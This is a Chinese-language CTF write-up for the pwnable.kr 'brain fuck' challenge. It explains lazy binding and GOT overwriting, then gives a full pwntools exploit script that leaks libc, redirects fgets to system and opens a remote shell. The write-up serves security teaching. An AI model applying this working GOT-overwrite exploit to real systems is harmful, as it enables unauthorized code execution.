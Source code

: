 ```yaml
---
layout: post
title: pwnable.kr brain fuck
date: 2023-05-21 19:49 +0800
categories: [ctf, pwn]
tag: [pwnable.kr, stack]
---
```


## 题目描述
* 移动一个指针，次数最多1024次
* 可以逐字节修改GOT表
* 可以修改BSS的一些内容

## 解题思路
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
* 很明显的部分地址段任意读写，因此主要利用GOT覆写技术去操作。
* 由于延迟绑定，当我们调用一次putchar，在GOT表会记录putchar的真实地址，使用getchar逐字节泄漏他
* 根据libc获取offset，从而获得libc基地址
* 覆盖GOT表，主要任务如下
  * putchar -> main 使得我们能二次进入main程序
  * memset -> gets 读入`/bin/sh`
  * fgets -> system
* get shell


## 延迟绑定
```
											      GOT
                      +--------------+
      ELF          +> | puts@glibc   +---+        GLIBC
+-------------+    |  +--------------+   |   +--------------+
|             +-+  |  | printf@glibc |   |   |              |
| call <puts> | |  |  +--------------+   +-> | puts entry   |
|             | |  |  | scanf@glibc  |       |              |
+-------------+ |  |  +--------------+       +--------------+
                |  |  |     ...      |
                |  |  +--------------+
                |  |
 +--------------+  +-------+
 |                         |
 |    +-----------------+  |
 +--> | puts@plt        |  |
      +-----------------+  |
      | jmp   *puts@got +--+
      | push  puts_id   |
      | jmp   resolver  |
      +-----------------+
      |       ...       |
      +-----------------+
```

{: .prompt-info }
> 完成延迟绑定的关键就在于三条指令中的后两句。在程序编译的时候，编译器会在函数对应的GOT表中填入一个初始值，这个初始值会被设置成对应PLT项中第二句指令的地址。这会使得：当程序第一次调用某一函数时，程序会运行到PLT的第一条指令，取出GOT表中的值并跳转过去，而此时GOT表中的值指向了第二条指令，所以这个跳转相当于顺序执行了第二条指令。这时第二条指令就会将对应的符号表序号压入堆栈，并在第三条指令跳转到一个resolver的入口，resolver会：

{: .prompt-tip }
> - 根据堆栈中符号表的序号解析出对应函数的真实地址
> - 将真实地址填入GOT表中，替换掉一开始的初始值
> - 跳转到对应函数，并继续执行，调用结束后可以直接返回到调用的地方

如此，程序就顺利的调用了所需要的函数，同时GOT表中的地址也变成了真实的函数地址。此后，如果程序再次调用相同的函数，因为GOT表中的地址已经被替换，则PLT中的第一条指令就可以直接让程序跳转到目标函数。
## 解题脚本
```python
from pwn import *
from ctypes import *
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

elf = ELF('./bf')
libc = ELF('./bf_libc.so')
# p = process('./bf')
p = remote('pwnable.kr',9001)

def debug(cmd=""):
    gdb.attach(p, cmd)
    pause()

putchar_got_addr = elf.got['putchar']
fgets_got_addr = elf.got['fgets']
memset_got_addr = elf.got['memset']
puts_got_addr = elf.got['puts']

system_libc_offset = libc.symbols['system']
putchar_libc_offset = libc.symbols['putchar']
memset_libc_offset = libc.symbols['memset']
puts_libc_offset = libc.symbols['puts']
gets_libc_offset = libc.symbols['gets']

tape_addr = 0x0804A0A0
main_addr = 0x08048671 

data = flat(
    [   b'.',
        # leak
        (tape_addr - putchar_got_addr) * b'<',
        b'.>' * 4,
        # modify fgets to system
        (4 + putchar_got_addr - fgets_got_addr) * b'<',
        b',>,>,>,>',
        
        # modify memset to gets
        (memset_got_addr - puts_got_addr + 4) * b'>',
        b',>,>,>,>',
        
        # modify putchar to main
        b',>,>,>,>.',
    ]
)

print(len(data))

p.sendlineafter(b"[ ]",data)
p.recvuntil(b"\x00")

putchar_real_addr = struct.unpack('I',p.recv(4))[0]
libc_base_addr = putchar_real_addr - putchar_libc_offset
log.success(f"[system]{hex(system_libc_offset+libc_base_addr)}")
log.success(f"[gets]{hex(libc_base_addr + gets_libc_offset)}")

p.sendline(p32(system_libc_offset+libc_base_addr) + p32(libc_base_addr + gets_libc_offset) + p32(main_addr) + b'/bin/sh\x00') # /bin/sh 必须紧跟 否则换行还在缓冲区中，gets将读不到任何内容
p.interactive()
```

